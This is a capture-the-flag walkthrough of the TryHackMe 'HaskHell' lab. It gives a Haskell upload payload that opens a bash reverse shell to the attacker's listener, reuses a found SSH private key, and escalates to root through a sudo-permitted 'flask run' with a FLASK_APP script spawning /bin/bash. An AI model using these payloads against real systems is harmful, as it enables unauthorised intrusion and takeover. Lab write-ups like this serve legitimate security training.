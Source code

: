 # TryHackMe HaskHell
**Teach your CS professor that his PhD isn't in security.**

## Task-1 HaskHell

* Starting nmap for enumeration gave us two ports -'22' and '5001'. Opening /ip:5001 in website gave us a university like page which says 'Welcome to functional programming 220!'. On that page we can can find links to other pages. We see an /upload section which is forbidden. So for directory enumeration I fired up gobuster using command *gobuster dir -u http://ip -w medium.txt* and got a page '/submit' which was allowing us to upload files. If you will read carefully on the previous pages it clearly states that you can upload only haskell files.

* After that I searched for haskell programming to run system commands and got one. The code is below : 
import System.Process
main = do
   callCommand "bash -c 'bash -i >& /dev/tcp/ip/8888 0>&1'"

* Save this code in a file with extension '.hs'. After this just open your nc using 'nc -lnvp 8888' and upload this file. Wait for some time and you will get your shell.

* After that go to 'home' directory and list users. You will see a 'prof' directory upon opening gave us a '.ssh' directory containing private key for prof. Also you will get a user.txt file which is answer to first question.

1. Get the flag in the user.txt file.<br>
Answer : flag{Academic_dis*******}

* Now while in .ssh directory type '*ssh -i id_rsa prof@localhost*' and you will be in prof shell. Now type 'sudo -l' for sudo permissions and we see a file named 'run' which prof can run. So type '*echo "import os" > script.py*' and then '*echo "os.system('/bin/bash')" >> script.py*'. I used echo and not any text editor as it was not working properly in that shell.

* Now 'sudo -l' also tells us to 'env_keep+=FLASK_APP'. Means append your file to FLASK_APP variable. This can be done using '*export FLASK_APP=script.py*'. Now type '*sudo /usr/bin/flask run*' and you will get your root shell. 

2. Obtain the flag in root.txt<br>
Answer : flag{im_purely_**********}
